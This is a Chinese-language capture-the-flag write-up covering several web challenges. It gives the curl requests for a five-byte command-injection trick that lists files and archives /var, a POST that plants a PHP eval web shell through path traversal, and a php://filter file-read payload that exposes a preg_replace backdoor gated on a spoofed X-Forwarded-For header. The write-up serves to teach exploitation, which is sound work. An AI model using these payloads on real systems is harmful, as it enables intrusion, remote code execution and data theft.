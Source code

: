 基本算是orange大佬出的原题吧，而且还不带ssrf。

题目可以命令执行，但长度不能超过5个字节，且还有一个waf.php,暂时不管这个waf。

```
#执行 find />x  遍历系统中有权限访问的文件，存入x，下载x就知道系统有哪些文件，找到flag.php，在web目录下
curl http://47.104.166.183:20008/getflag.php?dir=test&c=>find
curl http://47.104.166.183:20008/getflag.php?dir=test&c=*%20/>x
curl http://47.104.166.183:20008/getflag.php?dir=test&re=1

#打包/var目录下所有文件，包括了flag.php
curl http://47.104.166.183:20008/getflag.php?dir=test&c=>tar
curl http://47.104.166.183:20008/getflag.php?dir=test&c=>zcf
curl http://47.104.166.183:20008/getflag.php?dir=test&c=>zzz
curl http://47.104.166.183:20008/getflag.php?dir=test&c=*%20/v*

```

下载就可以了，不过这道题因为后面很多人tar了，导致越后面文件越大，我的有5.1G orzzzzzzzz，然后就直接在第一步找到别人压缩好的，直接捡了 0.0

### 工控云管理系统项目管理页面解析漏洞

获取管理员身份

http://47.104.156.32:20007/index.php?page=123&id=1a9

写shell:

POST http://47.104.156.32:20007/index.php?page=123&id=1a9

DATA: `file=../hh.php/.&con=<?php @eval($_POST[dlive]);?>`

### 工控云管理系统设备维护中心被植入后门

文件读取可以读php代码

http://47.104.74.209:20005/index.php?page=php://filter/read=convert.base64-encode/resource=index.php

```
if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {

    echo "<br >Welcome My Admin ! <br >";

    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];

    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }

}
```

